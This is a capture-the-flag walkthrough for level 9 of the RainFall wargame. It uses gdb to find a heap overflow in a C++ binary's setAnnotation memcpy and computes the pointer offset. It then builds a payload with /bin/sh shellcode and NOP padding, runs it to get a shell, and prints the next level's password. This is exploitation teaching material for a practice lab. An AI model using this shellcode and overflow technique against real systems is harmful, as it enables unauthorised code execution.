 ## LEVEL 9

This level is a little more special because the original code isn't C but C++. Let's disassembling the program and find a vulnerability.

```shell
level9@RainFall:~$ gdb -q level9
Reading symbols from /home/user/level9/level9...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:	push   %ebp
   0x080485f5 <+1>:	mov    %esp,%ebp
   0x080485f7 <+3>:	push   %ebx
   [...]
   0x08048674 <+128>:	mov    %eax,(%esp)
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax
   [...]
   0x08048698 <+164>:	leave
   0x08048699 <+165>:	ret
End of assembler dump.
(gdb) disas 0x804870e
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:	push   %ebp
   0x0804870f <+1>:	mov    %esp,%ebp
   [...]
   0x08048730 <+34>:	mov    %edx,(%esp)
   0x08048733 <+37>:	call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:	leave
   0x08048739 <+43>:	ret
End of assembler dump.
```

The program don't have any `system()` or `execve()` calls, so we have to use a **ShellCode Injection**. We tried to use the same technique than in the previous level, but it didn't work, we cannot just find the EIP and change the return address.

After many research and using Ghibra we discovered a bunch of interesting things. The first one is the alloacation order, `n1` is allocated before `n2` then the program calls `setAnnotation()` on `n1`. That's means that we can overflow `n2` change the adress pointed. Another interesting thing is that return of `main()` dereferences `n2` and `n1`.

So if we write the `n2` address by overloading the `n1` string with `memcpy()` we can set `n2` address to the address of our **ShellCode**.

To create our Payload we need some informations.

---

#### The address of the start of the buffer

```shell
level9@RainFall:~$ gdb -q level9
Reading symbols from /home/user/level9/level9...(no debugging symbols found)...done.
(gdb) b *0x0804867c
Breakpoint 1 at 0x804867c
(gdb) r "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
Starting program: /home/user/level9/level9 "ABCDEFGHIJKLMNOPQRSTUVWXYZ"

Breakpoint 1, 0x0804867c in main ()
(gdb) x/32x $eax
0x804a00c:	0x44434241	0x48474645	0x4c4b4a49	0x504f4e4d
0x804a01c:	0x54535251	0x58575655	0x00005a59	0x00000000
0x804a02c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a03c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a04c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a05c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a06c:	0x00000000	0x00000005	0x00000071	0x08048848
0x804a07c:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb)
```

Perfect so the start of our buffer is `0x804a00c`.

---

#### Padding

To find the padding to overflow `n2` we will use the previous output of GDB.

The address `0x08048848` is at position `0x804a078` so we just have to substract `0x804a00c` from `0x804a078` to get the padding.

0x804a078 - 0x804a00c = 0x6c -> 108.

So to overwrite `n2` we have to write 108 before the address

---

#### ShellCode

To this level I will use this ShellCode : `\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`

*To know how to find a ShellCode read the [level2](../level2)*

---

#### The address of the start of our ShellCode

To calculate the start of our ShellCode we just have to addition the buffer adress with the distance between the address and the ShellCode.

---

### Payload

`python -c 'print "\x10\xa0\x04\x08" + "\x90"*10 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90" * 73 + "\x0c\xa0\x04\x08"' > /tmp/payload`

Perfect, we just have to inject the payload into the program.

```shell
level9@RainFall:~$ ./level9 $(cat /tmp/payload)
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```